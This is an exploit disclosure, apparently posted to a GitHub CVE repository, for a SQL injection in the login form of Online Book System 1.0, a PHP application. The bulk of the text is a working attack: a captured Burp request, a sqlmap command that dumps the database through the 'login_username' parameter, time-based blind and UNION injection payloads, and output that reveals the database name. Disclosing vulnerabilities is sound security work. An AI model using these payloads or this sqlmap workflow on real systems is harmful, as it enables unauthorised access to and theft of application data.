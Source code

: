 # Online Book System- SQL Injection - 1
+ **Exploit Title:** Online Book System- SQL Injection
+ **Date:** 2024-26-03
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://code-projects.org/online-book-system-in-php-css-js-and-mysql-free-download/
+ **Software Link:** https://download.code-projects.org/details/74c24d93-431e-4e31-acc1-802f14caef5c
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Online Book System 1.0 allows SQL Injection via the 'login_username' parameter at "localhost/BookStore-master 1/index.php". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "localhost/BookStore-master 1/index.php"
+ Try logging in by typing random things
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:

```
POST /BookStore-master%201/index.php HTTP/1.1
Host: localhost
Content-Length: 62
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/BookStore-master%201/index.php?Message=successfully%20logged%20out!!
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: language=en; continueCode=5vLeVxlRzkNb47vKDPMo5Lq8wdzLtvf1Hem0jn6EZm2ygrX19BpaQWOJY3oM; welcomebanner_status=dismiss; cookieconsent_status=dismiss; PHPSESSID=b7g245tvc3rrau75lpnecgj00n
Connection: close

login_username=test%40test.com&login_password=123&submit=login

```

+ Use sqlmap to exploit. In sqlmap, use 'login_username' parameter to dump the database.
```
sqlmap -r r.txt -p login_username --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: login_username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: login_username=test@test.com' AND (SELECT 7570 FROM (SELECT(SLEEP(5)))Dszz)-- Jmvh&login_password=123&submit=login

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: login_username=test@test.com' UNION ALL SELECT CONCAT(0x717a627871,0x6a58496948665473534274466f59496b544a5a78504b5265646f4f4c415351764244716e714d476c,0x71707a7871),NULL-- -&login_password=123&submit=login
---
[12:03:00] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[12:03:00] [INFO] fetching current database
current database: 'u385439067_store'

```
+ current database: `u385439067_store`

![Ekran görüntüsü 2024-03-26 191029](https://github.com/BurakSevben/CVEs/assets/117217689/c2c32bbb-640b-47b9-bd35-7e526542778c)
